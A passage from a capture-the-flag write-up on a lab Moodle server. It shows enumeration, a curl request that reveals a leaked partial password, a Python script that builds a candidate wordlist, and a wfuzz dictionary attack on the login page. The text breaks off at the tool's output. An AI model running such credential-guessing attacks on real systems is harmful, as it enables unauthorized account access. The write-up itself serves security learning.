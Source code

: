 
### 2. Getting User
As we can see, <a href="https://moodle.org/">Moodule</a> is running on this server.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-04-26/2019-04-26-12-31-33.png)
We can login the moodle as guest user but there is not any interesting information.<br>
By enumerating some other pages, we can find that there is a strange image file on "/gallery.html"
What we can find is that
1. There is a image tag its source file is exist but we can not see
2. This tag shows unknown message which says "That's an F"
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-04-26/2019-04-26-12-40-15.png)
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-04-26/2019-04-26-12-40-42.png)

By executing curl command, we can figure out what is the content of 5.png
{% highlight shell %}
root@kali:~# curl http://10.10.10.153/images/5.png
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
{% endhighlight %}

According to this information, the username we can expect is "Giovanni".<br>
And its password consists of "Th4C00lTheacha" + one character.<br>
<br>
We can take advantage of this information for login to moodle admin console.<br>
At first, we have to create a possible password lists.
{% highlight python %}
#! /usr/bin/python3

import string

PASS = "Th4C00lTheacha"

chars = ""
chars += string.ascii_letters
chars += string.digits
chars += string.punctuation

with open("./password.txt", "w") as f:
    txt = ""
    for c in chars:
        txt += PASS + c + '\n'
    f.write(txt)
    f.close()
{% endhighlight %}

By running a script above, we have possible passwords.<br>
Then, try to execute dictionary attack.<br>
We can use "wfuzz" for this purpose.
{% highlight shell %}
root@kali:~# wfuzz -w ./password.txt --hh 440 -t 20 -d "anchor=&username=giovanni&password=FUZZ" http://10.10.10.153/moodle/login/index.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 94

